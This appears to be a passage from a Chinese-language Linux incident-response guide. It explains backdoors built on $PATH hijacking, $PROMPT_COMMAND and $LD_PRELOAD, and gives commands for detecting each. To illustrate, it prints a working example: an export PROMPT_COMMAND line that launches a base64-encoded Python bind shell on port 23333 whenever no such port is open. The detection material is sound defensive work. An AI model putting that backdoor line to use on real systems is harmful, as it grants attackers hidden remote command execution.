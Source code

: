 攻击类型2：利用$PATH的缺陷。

攻击者在现有的高优先级的目录中放置同名后门程序，劫持低目录中的程序。排查命令：

```shell
# 例如攻击者通过在/usr/local/sbin或/usr/local/bin中部署后门程序如sudo，可以优先于原本/usr/bin/sudo执行。
find /usr/local/sbin -perm -100 -type f> 1.txt
find /usr/local/bin -perm -100 -type f >>1.txt
find /home -perm -100 -type f >>1.txt
find /root -perm -100 -type f >>1.txt
cat 1.txt|sort|uniq -c|sort -nr|head -n 10
```
##### $PROMPT_COMMAND后门

该环境变量通俗来说用于在执行每条命令前执行命令，不少运维人员利用它来做历史记录加固，但是攻击者同样可以利用它来插入后门逻辑。排查命令如下：

```shell
grep -n "PROMPT_COMMAND" ~/.* 2>/dev/null
grep -rn "PROMPT_COMMAND" /etc/profi* 2>/dev/null
grep -n "PROMPT_COMMAND" /etc/bashrc 2>/dev/null
```

正常的该环境变量内容应该是关于shell的界面显示：

```shell
#    PROMPT_COMMAND='echo -ne "\033]0;${USER}@${HOSTNAME}: ${PWD}\007"'
```

或是结合历史记录加固的：

```shell
history -a; history -a; printf "\033]0;%s@%s:%s\007" "${USER}" "${HOSTNAME%%.*}" "${PWD/#$HOME/~}"
```

而下面这种情况是一条利用环境变量来做bind shell的后门。每一次执行先检查端口有没有占用，如果没占用，立马开一个后门端口。
```shell
export PROMPT_COMMAND="lsof -i:23333 &>/dev/null || (python2 -c \"exec('aW1wb3J0IHNvY2tldCxvcyxzeXMKcz1zb2NrZXQuc29ja2V0KCkKcy5iaW5kKCgiIiwyMzMzMykpCnMubGlzdGVuKDEpCihjLGEpPXMuYWNjZXB0KCkKd2hpbGUgMToKIGQ9Yy5yZWN2KDUxMikKIGlmICdleGl0JyBpbiBkOgogIHMuY2xvc2UoKQogIHN5cy5leGl0KDApCiByPW9zLnBvcGVuKGQpLnJlYWQoKQogYy5zZW5kKHIpCg=='.decode('base64'))\" 2>/dev/null &)"
```
##### $LD_PRELOAD后门
$LD_PRELOAD用于指定程序动态库的加载。动态库的加载满足下面的定义顺序：
```shell
$LD_PRELOAD>$LD_LIBRARY_PATH>/etc/ld.so.cache>/lib>/usr/lib
```
故而，攻击者利用该环境变量定义的库文件可以实现对函数的劫持。

排查命令如下：
```shell
grep -n "LD_PRELOAD" ~/.* 2>/dev/null
grep -rn "LD_PRELOAD" /etc/profi* 2>/dev/null
grep -n "LD_PRELOAD" /etc/bashrc 2>/dev/null
#观察结果内是否存在形如：export LD_PRELOAD=/xxxx/xxx.so
```
如果系统内正在运行的进程存在加载了该环境变量的可能，通过检查/proc/*/environ也能快速定位到受影响的进程。
```shell
cat /proc/*/environ |tr '\0' '\n'|grep LD_PRELOAD
grep -rn LD_PRELOAD /proc/*/environ
```
